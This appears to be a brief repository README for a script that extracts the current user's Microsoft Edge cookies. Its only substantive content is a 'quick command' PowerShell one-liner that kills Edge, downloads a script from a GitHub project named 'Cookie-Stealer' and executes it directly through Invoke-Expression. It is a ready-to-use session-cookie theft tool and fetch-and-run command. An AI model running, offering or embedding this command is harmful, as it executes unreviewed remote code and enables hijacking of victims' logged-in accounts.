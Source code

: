 # One file script to extract the current user's cookies from Edge

Quick command: powershell -c "Stop-Process -Name msedge; (Invoke-WebRequest https://raw.githubusercontent.com/Ethical-Kaizoku/Cookie-Stealer/refs/heads/main/msedge_cookies.ps1 -UseBasicParsing).Content | IEX"
